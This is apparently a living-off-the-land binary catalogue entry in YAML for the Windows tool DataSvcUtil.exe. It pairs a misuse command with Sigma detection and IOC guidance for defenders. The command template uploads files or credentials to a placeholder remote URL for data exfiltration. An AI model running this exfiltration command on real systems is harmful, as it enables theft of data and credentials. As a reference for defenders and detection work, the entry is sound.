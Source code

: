 ```yaml
---
Name: DataSvcUtil.exe
Description: DataSvcUtil.exe is a command-line tool provided by WCF Data Services that consumes an Open Data Protocol (OData) feed and generates the client data service classes that are needed to access a data service from a .NET Framework client application.
Author: Ialle Teixeira
Created: 2020-12-01
Commands:
  - Command: DataSvcUtil /out:{PATH_ABSOLUTE} /uri:{REMOTEURL}
    Description: Upload file, credentials or data exfiltration in general
    Usecase: Upload file
    Category: Upload
    Privileges: User
    MitreID: T1567
    OperatingSystem: Windows 10
Full_Path:
  - Path: C:\Windows\Microsoft.NET\Framework64\v3.5\DataSvcUtil.exe
Code_Sample:
  - Code: https://gist.github.com/teixeira0xfffff/837e5bfed0d1b0a29a7cb1e5dbdd9ca6
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/62d4fd26b05f4d81973e7c8e80d7c1a0c6a29d0e/rules/windows/process_creation/proc_creation_win_lolbin_data_exfiltration_by_using_datasvcutil.yml
  - IOC: The DataSvcUtil.exe tool is installed in the .NET Framework directory.
  - IOC: Preventing/Detecting DataSvcUtil with non-RFC1918 addresses by Network IPS/IDS.
  - IOC: Monitor process creation for non-SYSTEM and non-LOCAL SERVICE accounts launching DataSvcUtil.
Resources:
  - Link: https://docs.microsoft.com/en-us/dotnet/framework/data/wcf/wcf-data-service-client-utility-datasvcutil-exe
  - Link: https://docs.microsoft.com/en-us/dotnet/framework/data/wcf/generating-the-data-service-client-library-wcf-data-services
  - Link: https://docs.microsoft.com/en-us/dotnet/framework/data/wcf/how-to-add-a-data-service-reference-wcf-data-services
Acknowledgement:
  - Person: Ialle Teixeira
    Handle: '@NtSetDefault'
---
```

